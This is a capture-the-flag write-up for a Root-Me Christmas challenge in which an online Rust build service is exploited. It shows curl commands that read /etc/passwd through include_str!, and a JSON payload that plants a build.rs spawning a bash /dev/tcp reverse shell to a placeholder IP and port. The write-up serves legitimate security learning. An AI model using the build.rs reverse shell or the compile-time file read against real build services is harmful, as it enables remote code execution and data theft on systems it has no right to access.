 # Build & Drustroy (day4)

<p align="center"><img src="Screenshots/S1.png" alt="Desc"></p>

<p align="justify"> In this challenge a Rust compilator was available online; it was possible able to send raw rust code to the online service which was returning a binary containing our Rust code compiled. The code was sent through JSON payload, using the following cmdline (provided with the chall). The source code of the compilator was also provided, docker file and server files also so you could have deployed the service locally : </p>

````bash
curl -sSk -X POST -H 'Content-Type: application/json' https://day4.challenges.xmas.root-me.org/remote-build -d '{"src/main.rs":"fn main() { println!(\"Hello, world!\"); }"}' --output binary
file binary # binary: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, ...
````
<p align="justify">I had never used Rust before, so I had to read a few doc before trying to exploit anything. After a few read, I came up with a first exploit. Actually with rust it's possible to use the macro include_str to load file/data during code compilation. So the first thing I tried was to load /etc/passwd, which was successful : </p>

````bash
curl -sSk -X POST -H 'Content-Type: application/json' https://day4.challenges.xmas.root-me.org/remote-build -d '{"src/main.rs":"fn main() { let flag_content = include_str!(\"/etc/passwd\"); println!(\"// Flag content: {}\",flag_content); }"}' --output binary
````

<p align="center"><img src="Screenshots/S3.png" alt="Desc"></p>

<p align="justify">Afterward, I thought I would be able to load the file directly, but the name of the flag file wasn't the one provided in the source files. Since I couldn’t guess the actual name of the flag file, I decided to deploy a reverse shell. In Rust, when code is compiled using Cargo, the file build.rs is automatically loaded into the compilation process (it is located in the root folder of your rust project). This file is often used to generate files that you want to include in your Rust project, or to run scripts before and after compilation: </p> 

````text
project_dir/
├── Cargo.toml      
├── build.rs        
├── src/
│   ├── main.rs     
│   └── lib.rs      
└── output_dir/
````

<p align="justify">So, in the context of this challenge, it was an open door to remote code execution (RCE). As a result, I deployed a reverse shell using the following JSON payload (the reverse shell payload is available in revshell.rs in this repository):</p>

````json
{"src/main.rs":"fn main() { println!(\"Hello, world!\"); }", "build.rs":"use std::process::Command; fn main() { let ip = \"IP ADDR\"; let port = \"PORT\"; let _ = Command::new(\"bash\").arg(\"-c\").arg(format!(\"exec 5<>/dev/tcp/{}/{}; cat <&5 | while read line; do $line 2>&5 >&5; done\", ip, port)).spawn().expect(\"Failed\"); println!(\"Reverse shell attempted to connect to {}:{}\", ip, port); }"}
````

<p align="center"><img src="Screenshots/S2.png" alt="Desc"></p>

<p align="justify"> For tcp tunneling I used ngrok, and after I received the remote connection I managed to print the flag : </p>

Flag : _OffenSkillSaysHi2024RustAbuse_ , thanks Laluka for tor this challenge !
